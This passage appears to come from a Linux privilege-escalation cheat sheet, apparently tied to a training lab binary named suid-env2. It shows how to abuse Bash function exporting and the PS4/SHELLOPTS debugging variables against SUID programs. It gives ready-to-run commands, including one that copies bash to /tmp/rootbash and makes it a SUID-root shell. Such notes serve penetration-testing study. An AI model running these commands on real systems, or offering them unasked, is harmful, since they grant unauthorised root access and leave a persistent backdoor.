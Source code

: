```
strings <PATH TO FILE>
strace -v -f -e execve <COMMAND> 2>&1 | grep exec
ltrace <COMMAND>
```

### Abusing shell features #1
In some shells (notably Bash <4.2-048) it is possible to define user functions with an absolute path name. These functions can be exported so that subprocesses have access to them, and the functions can take precedence over the actual executable being called.

#### Run strings on the SUID File
```
strings /usr/local/bin/suid-env2
```

#### Verify the version of Bash is lower than 4.2-048:
```
bash --version
```

#### Create a Bash function with the name “PROGRAM IT RUNS” and export the function:
```
function <PROGRAM> { /bin/bash -p; }
export –f <PROGRAM>
```

#### Execute the SUID file

### Abusing shell features #2
Bash has a debugging mode which can be enabled with the –x command line option, or by modifying the SHELLOPTS environment variable to include xtrace. By default, SHELLOPTS is read only, however the env command allows SHELLOPTS to be set. When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debug statements. This variable can include an embedded command, which will execute every time it is shown.

If a SUID file runs another program via Bash (e.g. by using system() ) these environment variables can be inherited. If an SUID file is being executed, this command will execute with the privileges of the file owner. In Bash versions 4.4 and above, the PS4 environment variable is not inherited by shells running as root.

#### Run strings on the SUID File
```
strings /usr/local/bin/suid-env2
```

#### Run the SUID file with bash debugging enabled and the PS4 variable assigned to our payload:
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash)' /usr/local/bin/suid-env2
```
